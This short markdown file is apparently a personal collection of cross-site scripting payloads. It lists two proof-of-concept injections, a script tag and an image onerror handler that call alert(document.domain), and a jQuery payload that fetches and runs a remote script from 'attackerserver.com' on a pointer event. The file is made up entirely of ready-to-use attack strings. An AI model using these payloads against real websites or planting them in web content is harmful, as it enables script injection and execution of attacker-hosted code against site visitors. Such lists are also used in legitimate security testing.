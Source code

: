 # My collection of XSS

## Regular XSS
<script>alert(document.domain)</script>
"><img src=x onerror="alert(document.domain)"/>

## Enaled jQuery
<body onpointerenter="jQuery.getScript('https:/' +'/attackerserver.com/inject.js')">
